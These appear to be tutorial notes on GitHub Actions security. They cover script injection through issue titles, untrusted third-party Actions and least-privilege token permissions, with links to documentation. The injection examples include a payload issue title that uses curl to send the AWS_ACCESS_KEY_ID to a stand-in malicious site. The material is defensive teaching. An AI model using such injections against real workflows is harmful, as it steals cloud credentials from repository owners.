

# Section 10: Security & Permissions

## Script Injection
```
A value, set outside a Workflow, is used in a Workflow
Example(s):
    - Issue title used in a Workflow shell command
        -- Workflow / command behavior could be changed
```
Example Steps:
1. Create an issue entitled `Something's wrong!`
```
Workflow(script-injection.yml) runs as expected
```
2. Create an issue entitled `a";echo Got your secrets"`
```
Workflow(script-injection.yml) runs with unexpected behavior:
> echo Got your secrets

How it works:
> `a"` closed Workflow(script-injection.yml)'s `issue_title="`
> `;echo Got your secrets` injected unexpected behavior
> trailing `"` closed Workflow's trailing `"`

Original Command:
> issue_title="${{ github.event.issue.title }}"

Final command:
> issue_title="a";echo Got your secrets""
```
3. Create an issue entitled `a"; curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`
```
How it works:
> Does similar trick as Example 2
> Attacker can extract interpolated environment variable `AWS_ACCESS_KEY_ID` and store it somewhere else
```

## Malicious Third-Party Actions
```
Actions can perform any logic, including potentially malicious logic
Example(s):
    - A third-party Action that reads and exports your secrets
Solution(s):
    - Only use trusted Actions and inspect code of unknown / untrusted authors
```
### Using Actions Securely
#### Only use your own Actions
```
Pros: Highest level of security
Cons: Considerable amount of effort
```
#### Only use Actions by verified creators

Look for `Creator verified by GitHub` check mark
```
Pros: Less amount of effort
Cons: Still not a 100% guarantee
```
#### Use all public Actions
```
Pros: Solves most of the problems you might encounter
Cons:
  - Lowest level of security
  - You must analyze the Action code first before using it
```

## Permission Issues
```
Avoid overly permissive permissions (Least Privilege Principle)
Example(s):
    - Only allow checking out code ("read-only")
Solution(s):
    - GitHub Actions supports fine-grained permissions control
```
- [Permissions for the GITHUB_TOKEN](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token)
- [Assigning permissions to jobs](https://docs.github.com/en/actions/using-jobs/assigning-permissions-to-jobs)
- [About security hardening with OpenID Connect](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
- [Configuring OpenID Connect in Amazon Web Services](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-amazon-web-services)
- [Security hardening for GitHub Actions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [Using secrets in GitHub Actions](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions)
- [Automatic token authentication](https://docs.github.com/en/actions/security-guides/automatic-token-authentication)
- [Keeping your GitHub Actions and workflows secure Part 1: Preventing pwn requests](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/)